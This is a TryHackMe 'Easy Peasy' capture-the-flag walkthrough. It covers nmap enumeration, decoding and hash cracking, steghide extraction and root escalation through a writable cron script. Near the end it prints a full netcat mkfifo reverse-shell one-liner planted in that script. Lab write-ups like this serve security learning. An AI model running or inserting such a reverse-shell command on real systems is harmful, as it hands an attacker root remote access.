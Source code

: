 ```yaml
---
title: "Try Hack Me: Easy Peasy Walkthrough"
classes: wide
header:
  teaser: /assets/images/Covers/easy_peasy.png
ribbon:   DodgerBlue
description: "We will walkthrough 'Easy Peasy' the challenge provided by THM"
categories:
  - Write-ups
toc: true
---
```


this is my walk through [Easy Peasy](https://tryhackme.com/room/easypeasyctf) room on try hack me.

there is a common methodology to walk through any CTF challenge:

1. Enumeration
1. Exploitation
1. Privilege Escalation

# Outlines

How to deal with decrypted text?

1. try to decrypt it with Cyber Chef
1. if can’t so it’s a hash
1. try to crack the hash with with crack station or hashes
1. search with the hash in google
1. use john to crack the hash.

How to analyse photos?

1. use strings
1. use steghide extract -sf image
1. use exiftool

# Enumeration

in this phase we try to discover (open ports, services, and technologies of the target).

we use NMAP to complete this phase.

`nmap -sV -Pn 10.10.242.227 -sC -p- -T4 --min-rate 5000`

- **-Pn**: to avoid pinging the target before ping scan.
- **-sC**: to run basic scripts to enumerate the target.
- **-sV**: for version scan.
- **-p-**: to test all ports.
- **-T4**: to set scan set fast
- **--min-rate 5000**: to set minimum request per second to 5000.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*yoASQZefBcEewTcCckJTJQ.png)

you can walk through these steps to test any web page in CTFs:

1. dig source code for comments contains important information or links in `href` tag.
1. open `robots.txt` if available.
1. use `gobuster` to brute force directories.
1. dig Java script files for any vulnerability.
1. search in parameters for any vulnerability

by following previous steps you won’t find any info in the source code or in the `robots.txt`.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Wq4FrKuWZYUZeKeSJQbO8w.png)

for each web page follow previous steps you will find

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*8Zu1eALcQRrmFrWdm0sPPA.png)

you will find this in the source code of `/hidden/whatever/`:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*V5JwZKjENQWElFiYogfcQg.png)

i thing it’s an encoded text, so i will use [cyberchef](https://gchq.github.io/CyberChef/) to decode it .

by using magic method in cyberchef you will get that it’s base64 encoded. decode it you will get the first flag.

if you tried the previous steps on that page you won’t find anything, so let’s go through other NMAP results.

after navigate to the second web server you will find apache 2 default web page.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*KprlxekPVwNqaRHm72T5rg.png)

we will follow the same steps.

after first step:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*wnAKKhK4v6KzzdJSeqDK8g.png)

it’s look like hash so i will use crackstation or hashes to crack it but it doesn’t work.

i searched with the hash and i find it.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*_BbwpkR_zg2HiBU5Cv9VmQ.png)

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*AvLUSaMZsEYPt_EWHO0Avg.png)

it tells you that encoded with ba…. so we will try all base formates to encode it. i found that it’s base62 encoded. it’s a name of hiden directory.

navigate to the hidden directory and follow our steps.

after the first step:

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*YvDwfysK05oFN-6LMLzJgA.png)

i tried to detect the encoding algorithm with Cyber Chef but i can’t so i guess this is a hash.

we will follow the steps i mentioned in the header.

finally i downloaded the photo and try to analyse it.

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*-6UAUdg-RpM9aHEN2FWAyQ.png)

i used `steghide` to extract the image.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*6peEYsEHJ3ebmpT7L8XLeQ.png)

i used the password we just cracked.

after viewing the `secrettext.txt` file i found username and password in binary format so i decrypt it and signed in to SSH.

after i loged , i found user flag but it said that may be rotated so i used ROT encrypt to decrypt the flag.

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ghrG_jDJ8EaC6VHZs973GA.png)

to get root flag i view cron tabs :

![image](https://miro.medium.com/v2/resize:fit:720/format:webp/1*sjQdD2fED4ChqNrgCjvoqg.png)

that tells you he will go to `/var/www/` directory and run a script as a root.

i listed the script file and i found that i can edit it

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*mrxv62MHH55MYWNf_n9W-w.png)

i will make this script to reverse shell to my machine.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> <port> >/tmp/f
```

this make the target reverse shell to me as a root

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*b5TuTu9mN7uziizGXueN_Q.png)

![image](https://miro.medium.com/v2/resize:fit:640/format:webp/1*ty9wLdBgQ_RkeBqR7JZ_ew.png)

i `cat` the root flag.

Congratulation, but don’t forget to terminate the machine.

hope this help you.
